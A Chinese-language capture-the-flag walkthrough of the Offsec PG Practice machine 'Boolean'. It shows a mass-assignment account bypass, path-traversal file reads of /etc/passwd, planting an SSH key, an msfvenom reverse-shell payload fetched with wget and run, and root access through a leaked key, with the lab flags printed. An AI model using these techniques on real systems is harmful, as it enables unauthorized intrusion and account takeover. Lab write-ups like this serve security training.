

###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Boolean
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.221.231 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.221.231:22
Open 192.168.221.231:80
Open 192.168.221.231:33017

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http    syn-ack
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-title: Boolean
|_Requested resource was http://192.168.221.231/login
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|_    Content-Length: 0
33017/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
```

查看`http://192.168.221.231`有一個login網站，點選下面的`Create account`



之後到login那邊直接登入，先開啟`burpsuite`後按下`edit`
```json
# request
POST /settings/email HTTP/1.1

_method=patch&authenticity_token=F6kFT8ZzOTwQnx3FEWWynLmsnS2D9AVDU4tB6zOIV2jxqIC0z4p2oki9-HYdvBXR1h4mQuuFYVaE1N2nK84xBA&user%5Bemail%5D=admin%40gmail.com&commit=Change%20email

# response
{
  "email": "admin@gmail.com",
  "id": 1,
  "username": "admin1",
  "confirmed": false,
  "created_at": "2024-05-20T03:57:58.432Z",
  "updated_at": "2024-05-20T03:57:58.432Z"
}
```

把request改成
```json
POST /settings/email HTTP/1.1

_method=patch&authenticity_token=0_NMzdQDnMeAW3blIQaJOX1A6Ui-iGiVNYO2TXbb-Ds18sk23frTWdh5k1Yt3y50EvJSJ9b5DIDi3CoBbp2eVw&user%5Bconfirmed%5D=true&commit=Change%20email

# response
{
  "confirmed": true,
  "id": 1,
  "username": "admin1",
  "email": "admin@gmail.com",
  "created_at": "2024-05-20T03:57:58.432Z",
  "updated_at": "2024-05-20T03:58:53.080Z"
}
```

接著回到首頁點選`Boolean`就可以進入`File Manager`，嘗試上傳php reverseshell不能成功，發現可在`http://192.168.221.231/?cwd=&file=shell.php&download=true`路徑進行LFI，可下載到passwd
```
http://192.168.221.231/?cwd=../../../../../etc&file=passwd&download=true

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
remi:x:1000:1000::/home/remi:/bin/bash
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
```

再用相同方法切換到`/home/remi/.ssh`資料夾
```
http://192.168.221.231/?cwd=../../../../../home/remi/.ssh

Filename 	        Size 	    Date
known_hosts 	    222 Bytes 	25 Oct 2022 09:58
keys 	            4 KB 	    25 Oct 2022 09:58
```
試過keys裡面的id_rsa都不能用，上傳自己的`authorized_key`之後
```
Filename 	        Size 	    Date
authorized_keys 	563 Bytes 	19 May 2024 23:39
known_hosts 	    222 Bytes 	25 Oct 2022 09:58
keys 	            4 KB 	    25 Oct 2022 09:58
```

用ssh登入，在`/home/remi`得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh remi@192.168.221.231 

remi@boolean:~$ cat local.txt
ed28daad0ec224b095ce087fd4cd92e3
```

在`/home/remi/.ssh/keys`發現`root`的`id_rsa`key，但在該shell使用ssh登入會一直失敗，嘗試先產生另一個reverse shell再ssh
```
┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.198 LPORT=33017 -f elf > shell_33017

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp33017

remi@boolean:~$ wget 192.168.45.198/shell_33017
remi@boolean:~$ chmod +x shell_33017
remi@boolean:~$ ./shell_33017

python3 -c 'import pty; pty.spawn("/bin/bash")'
remi@boolean:/home/remi/.ssh/keys$ ssh -i root root@127.0.0.1
```

得root，在`/root`得proof.txt
```
root@boolean:~# cat proof.txt
5064d8c09655603280a77dd941864dba
```